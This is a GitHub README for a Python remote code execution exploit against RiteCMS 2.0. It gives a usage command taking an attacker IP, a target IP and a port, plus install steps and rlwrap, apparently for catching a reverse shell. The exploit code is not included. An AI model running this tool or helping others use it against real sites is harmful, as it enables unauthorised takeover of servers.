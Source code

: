 # RiteCMS-2.0-Remote-Code-Execution
A Remote Code Execution python script to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```

## NOTE
If first run does not work, try to run again.

## Screenshot
![image](https://github.com/user-attachments/assets/6b860f49-f0d4-40b2-a41f-886146336e8c)


Enjoy!
